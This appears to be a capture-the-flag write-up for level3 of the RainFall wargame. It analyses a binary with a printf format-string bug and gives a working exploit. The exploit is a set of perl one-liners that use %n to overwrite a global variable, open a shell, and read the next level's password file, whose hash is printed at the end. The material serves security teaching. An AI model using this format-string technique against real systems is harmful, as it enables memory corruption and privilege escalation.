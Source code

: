 ### Analysis

**In `main` :**
call to function `v()`

**In `v()` :**

`fgets` on `stdin` to a string `format` with a limited size of `0x200` characters
This `format` string is used in `printf(format)` which is a vulnerability, referring to printf man
 ```
    Code such as printf(foo); often indicates a bug, since foo may
    contain a % character.  If foo comes from untrusted user input,
    it may contain %n, causing the printf() call to write to memory
    and creating a security hole.
 ```
and then it calls a `system("/bin/sh")` if the global variable `m` equal `0x40`

`m` adress:
```
(gdb) info variable
...
0x0804988c  m
...
```
___

### Exploit

Testing the printf
```
level3@RainFall:~$ perl -e 'print "%x %x %x %x" . "\n"' | ./level3
200 b7fd1ac0 b7ff37d0 25207825
```

If we try to store a buffer `ABCD`, its done on the fourth position
```
level3@RainFall:~$ perl -e 'print "ABCD %4\$x" . "\n"' | ./level3
ABCD 44434241
```

We can now change global `m` using `%n` and it adress
```
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08" . "%4\$x" . "\n"' | ./level3
��804988c
```

`m` is now equal to 4 because `"\x8c\x98\x04\x08"` takes 4 bytes
It must equal `0x40` which 64
Just add 60 with `"%60d"`
```
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08" . "%60d" . "%4\$n" . "\n"' | ./level3
��                                                         512
Wait what?!
```

And we just need to keep stdin open to acces the shell
```
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08" . "%60d" . "%4\$n" . "\n"' > /tmp/level3 && cat /tmp/level3 - | ./level3
��                                                         512
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```